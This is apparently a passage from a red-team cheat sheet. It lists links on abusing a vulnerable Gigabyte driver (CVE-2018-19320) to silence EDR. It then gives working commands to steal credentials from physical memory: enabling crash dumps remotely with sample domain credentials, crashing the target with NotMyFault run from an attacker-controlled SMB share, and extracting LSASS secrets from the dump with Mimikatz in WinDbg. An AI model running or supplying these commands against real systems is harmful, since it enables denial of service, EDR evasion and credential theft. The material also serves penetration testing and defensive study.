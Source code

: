 ### Abusing Gigabyte Driver

**CVE-2018-19320**

- [https://www.matteomalvica.com/blog/2020/07/15/silencing-the-edr/](https://www.matteomalvica.com/blog/2020/07/15/silencing-the-edr/)
- [https://www.secureauth.com/labs-old/gigabyte-drivers-elevation-of-privilege-vulnerabilities/](https://www.secureauth.com/labs-old/gigabyte-drivers-elevation-of-privilege-vulnerabilities/)
- [https://github.com/uf0o/windows-ps-callbacks-experiments/tree/master/evil-driver](https://github.com/uf0o/windows-ps-callbacks-experiments/tree/master/evil-driver)
- [https://github.com/fengjixuchui/gdrv-loader](https://github.com/fengjixuchui/gdrv-loader)
- [https://github.com/ASkyeye/CVE-2018-19320](https://github.com/ASkyeye/CVE-2018-19320)




## Physical Memory



### Crash Dumps

- [https://danielsauder.com/2016/02/06/memdumps-volatility-mimikatz-vms-part-3-windbg-mimikatz-extension/](https://danielsauder.com/2016/02/06/memdumps-volatility-mimikatz-vms-part-3-windbg-mimikatz-extension/)

Get current `CrashControl` settings and set `CrashDumpEnabled` to **0x01** (default dump location is `C:\Windows\MEMORY.dmp`):

```
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 query -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\CrashControl'
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 add -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\CrashControl' -v CrashDumpEnabled -vt REG_DWORD -vd 1
```

Crash the target machine, e. g. with [NotMyFault](https://learn.microsoft.com/en-us/sysinternals/downloads/notmyfault):

{% hint style="warning" %}
**This action causes DOS!** Do at your own risk.
{% endhint %}

```
$ cme smb 192.168.1.1 -u snovvcrash -p 'Passw0rd!' -x '\\10.10.13.37\notmyfaultc64.exe -accepteula /crash 0x03' --no-output
```

Parse LSASS with Mimikatz and [WinDbg](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools#small-classic-windbg-preview-logo-debugging-tools-for-windows-windbg):

```
kd> .load C:\mimilib.dll
kd> .SymFix
kd> .Reload
kd> !process 0 0 lsass.exe
kd> .process /r /p fffffa80072b2b10
kd> !mimikatz
```
